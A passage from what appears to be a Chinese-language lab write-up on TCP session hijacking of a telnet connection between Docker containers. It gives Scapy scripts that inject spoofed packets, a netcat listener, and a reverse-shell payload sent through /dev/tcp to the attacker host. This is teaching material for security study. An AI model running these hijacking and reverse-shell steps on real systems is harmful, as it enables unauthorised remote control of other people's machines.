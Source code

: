     #!/usr/bin/python3
    from scapy.all import *

    SRC  = "172.17.0.3"
    DST  = "172.17.0.2"
    PORT = 23

    def spoof(pkt):
        old_ip  = pkt[IP]
        old_tcp = pkt[TCP]

        #############################################
        ip  =  IP( src   = old_ip.src,
                dst   = old_ip.dst
                )
        tcp = TCP( sport = old_tcp.sport,
                dport = old_tcp.dport,
                seq   = old_tcp.seq,
                ack   = old_tcp.ack,
                flags = "A"
                )
        data = "ls\r\x00"
        #############################################

        pkt = ip/tcp/data
        send(pkt,verbose=0)
        ls(pkt)
        quit()

    f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
    sniff(filter=f, prn=spoof,iface='docker0')

### 利用回话劫持进行反弹shell

保证客户机和服务器已经进行了telnet连接

在攻击机上开启 监听端口

    nc -lvp 9090

在攻击机上运行该脚本

    #!/usr/bin/python3
    from scapy.all import *

    SRC  = "172.17.0.3"
    DST  = "172.17.0.2"
    PORT = 23

    def spoof(pkt):
        old_ip  = pkt[IP]
        old_tcp = pkt[TCP]

        #############################################
        ip  =  IP( src   = old_ip.src,
                dst   = old_ip.dst
                )
        tcp = TCP( sport = old_tcp.sport,
                dport = old_tcp.dport,
                seq   = old_tcp.seq,
                ack   = old_tcp.ack,
                flags = "A"
                )
        data = "bash -i >/dev/tcp/172.17.0.1/9090 2>&1 0<&1\r\x00"
        #############################################
